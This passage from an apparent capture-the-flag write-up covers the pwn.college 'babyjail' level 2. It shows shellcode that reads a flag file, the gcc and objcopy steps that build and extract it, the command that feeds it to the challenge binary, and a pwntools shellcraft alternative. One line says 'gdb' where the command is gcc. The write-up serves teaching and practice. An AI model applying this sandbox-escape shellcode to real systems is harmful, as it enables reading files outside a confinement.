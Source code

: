 ```armasm
	syscall

	# Exit syscall
	mov rdi, 0
	mov rax, 0x3c
	syscall

flag:
	.string "../../flag"
```

We can compile the program using `gdb`.

```
$ gcc -nostdlib ./shellcode.s -o ./shellcode
```

Let's extract the .text section using `objcopy`.

```
$ objcopy --dump-section .text=./shellcode.bin ./shellcode
```

Now we can send this code as STDIN.

```
$ /challenge/babyjail_level2 / < shellcode.bin
```

Note that we are in the `hacker` directory.

The `shellcraft` module from `pwn` allows us to create a shellcode easily. You could also use this method.

```python
from pwn import *

elf = ELF("/challenge/babyjail_level2")

context.arch="amd64"

shellcode = asm(shellcraft.readfile("flag", 1))

p = process(["/challenge/babyjail_level2", "/"], cwd="/")
p.sendline(shellcode)
p.interactive()
```

However creating our own shellcode allows us to have more control over it.



## level 3

> You may open a specified file, as given by the first argument to the program (argv\[1]). You may upload custom shellcode to do whatever you want.

On examining the code for this level, we can see that this time we have been put into the jail.
